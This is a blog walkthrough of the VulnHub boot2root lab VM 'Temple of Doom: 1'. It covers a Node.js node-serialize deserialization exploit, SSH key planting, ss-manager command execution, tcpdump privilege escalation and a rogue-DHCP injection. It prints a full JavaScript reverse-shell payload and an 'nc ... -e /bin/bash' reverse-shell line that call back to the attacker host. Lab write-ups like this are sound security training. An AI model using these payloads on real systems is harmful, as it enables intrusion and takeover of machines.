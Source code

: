 ```yaml
---
layout: post
date: 2018-08-26 18:15:47 +0000
last_modified_at: 2018-08-27 11:21:25 +0000
title: "Temple of Doom: 1 Walkthrough"
subtitle: "I'm No Indiana Jones"
category: Walkthrough
tags: [VulnHub, "Temple of Doom"]
comments: true
image:
  feature: temple-of-doom-1-walkthrough.jpg
  credit: PublicDomainPictures / Pixabay
  creditlink: https://pixabay.com/en/skull-bone-head-halloween-skeleton-18235/
---
```


This post documents the complete walkthrough of Temple of Doom: 1 a boot2root [VM][1] created by [@0katz][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You know it's a high quality VM when it's from [@Pink_P4nther](https://twitter.com/@pink_p4nther)'s homie, [@katz](https://twitter.com/@0katz).

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT    STATE SERVICE REASON         VERSION
22/tcp  open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    syn-ack ttl 64 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

`nmap` finds `22/tcp` and `666/tcp` open.

### Node.js Deserialization Bug

Let's pay `666/tcp` a visit and see what we can find there.

![50ad81b1.png](/assets/images/posts/temple-of-doom-1-walkthrough/50ad81b1.png)

Satan's temple is still under construction? Thank God :pray: I'm not going to hell any time soon.

Look what happens when I refresh the page.

![9f6cc22b.png](/assets/images/posts/temple-of-doom-1-walkthrough/9f6cc22b.png)

Look at the cookies storage.

![332df422.png](/assets/images/posts/temple-of-doom-1-walkthrough/332df422.png)

This is the `node-serialize` bug documented in [CVE-2017-5941](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941).

In any case, there's an easy way to exploit this vulnerability following the instructions [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

There's a slight difference though—I'm using the reverse shell generated by `msfvenom` instead.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=4444
```

Incorporate the output from `msfvenom` into `rce.js`. Remember to remove the enclosing round brackets.

<div class="filename"><span>rce.js</span></div>

```js
var reverse_shell = {
rce:function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(4444, "192.168.30.128", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); },
};

var serialize = require('node-serialize');
console.log(serialize.serialize(test));
```

Run `node rce.js` to get the serialized string output.

![87473663.png](/assets/images/posts/temple-of-doom-1-walkthrough/87473663.png)

Next, add the [IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) bracket `()` at the end of the serialized string output from the previous step before passing it to `base64` for encoding.

![398e3f8d.png](/assets/images/posts/temple-of-doom-1-walkthrough/398e3f8d.png)

Send the entire `base64` string as the `profile` cookie value to `http://192.168.30.129:666`. But before you do that, you want to set up your `nc` listener.

![0cfb9b07.png](/assets/images/posts/temple-of-doom-1-walkthrough/0cfb9b07.png)

As expected, the `nc` listener caught the reverse shell.

![fe9a4b46.png](/assets/images/posts/temple-of-doom-1-walkthrough/fe9a4b46.png)

You can see that `nodeadmin` is a regular user with its home directory at `/home/nodeadmin`; we can copy the SSH public key we control to `/home/nodeadmin/.ssh/authorized_keys` and log in through SSH. We get a more superior shell this way and `Ctrl-C` doesn't kill the shell. :smirk:

![9ca6cba5.png](/assets/images/posts/temple-of-doom-1-walkthrough/9ca6cba5.png)

Here's how to do that. First, generate the SSH keypair for `nodeadmin`.

![75c59205.png](/assets/images/posts/temple-of-doom-1-walkthrough/75c59205.png)

Next, create `/home/nodeadmin/.ssh` and echo the SSH public key to `authorized_keys`.

![8932e285.png](/assets/images/posts/temple-of-doom-1-walkthrough/8932e285.png)

Now, SSH into `nodeadmin`'s account.

### Command Execution in `shadowsocks-libev`

During enumeration of `nodeadmin`'s account, I notice `/usr/local/bin/ss-manager` is running as `fireman`.

![a2034971.png](/assets/images/posts/temple-of-doom-1-walkthrough/a2034971.png)

A quick search for "ss-manager" in Google led me to EDB-ID [43006](https://www.exploit-db.com/exploits/43006/). Listing the listening ports confirmed the command execution.

![5a264f18.png](/assets/images/posts/temple-of-doom-1-walkthrough/5a264f18.png)

A more liberal `nc` is also available for use in the VM.

![96d18f6d.png](/assets/images/posts/temple-of-doom-1-walkthrough/96d18f6d.png)

Armed with this knowledge, we can execute `nc` to give us a reverse shell as `fireman`.

![1119288b.png](/assets/images/posts/temple-of-doom-1-walkthrough/1119288b.png)

On our `nc` listener, a reverse shell returns as `fireman`.

![118e46df.png](/assets/images/posts/temple-of-doom-1-walkthrough/118e46df.png)

We can repeat the same SSH trick for `fireman`.

### Dangerous `tcpdump`

During enumeration of `fireman`'s account, I found the following.

![5c72e0cc.png](/assets/images/posts/temple-of-doom-1-walkthrough/5c72e0cc.png)

`tcpdump` in particular, can execute commands and run in another user's privilege with the `-z` and `-Z` options respectively.

Let's save `nc 192.168.30.128 1234 -e /bin/bash` into `/tmp/rev.sh` and make it executable.

![2202213b.png](/assets/images/posts/temple-of-doom-1-walkthrough/2202213b.png)

And execute `tcpdump` like so.

![c1ef1436.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1ef1436.png)

On the `nc` listener, a `root` shell returns.

![702d370f.png](/assets/images/posts/temple-of-doom-1-walkthrough/702d370f.png)

After repeating the SSH trick, getting the flag is trivial.

![9dfe8eb7.png](/assets/images/posts/temple-of-doom-1-walkthrough/9dfe8eb7.png)

:dancer:

### Afterthought

I wonder what's the second method for getting `root`? Could it be the exploitation of `abrt`?

I think I got it figured out. [CVE-2018-1111](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1111) anyone?

The signs were there all this time.

![c1a0b34c.png](/assets/images/posts/temple-of-doom-1-walkthrough/c1a0b34c.png)

There's a reason why `fireman` can `sudo` to execute `nmcli` and `iptables`. Even the source of the vulnerability is present.

![53cf80ea.png](/assets/images/posts/temple-of-doom-1-walkthrough/53cf80ea.png)

The proof-of-concept (PoC) code is so small it can fit inside a [tweet](https://twitter.com/Barknkilic/status/996470756283486209), with the help of `dnsmasq` of course.

Let's give it a shot!

In one terminal, I set up my attacking machine (192.168.30.128) as the rogue DHCP server with `dnsmasq`. In another terminal, I set up the `nc` listener to catch the reverse shell.

![6b69b4b4.png](/assets/images/posts/temple-of-doom-1-walkthrough/6b69b4b4.png)

Now, let's renew the VM's IP address with `nmcli`. My rogue DHCP server will respond to the VM's DHCP request with the injected command (`nc` to send `/bin/bash` over to me, i.e. a reverse shell) in the DHCP offer.

![42188e5c.png](/assets/images/posts/temple-of-doom-1-walkthrough/42188e5c.png)

A `root` shell returns.

![2de2fbdf.png](/assets/images/posts/temple-of-doom-1-walkthrough/2de2fbdf.png)

Below are the DHCP packets and the rogue DHCP offer captured in WireShark.

![7daab6b2.png](/assets/images/posts/temple-of-doom-1-walkthrough/7daab6b2.png)

![cb889f9c.png](/assets/images/posts/temple-of-doom-1-walkthrough/cb889f9c.png)


[1]: https://www.vulnhub.com/entry/temple-of-doom-1,243/
[2]: https://twitter.com/@0katz
[3]: https://www.vulnhub.com/
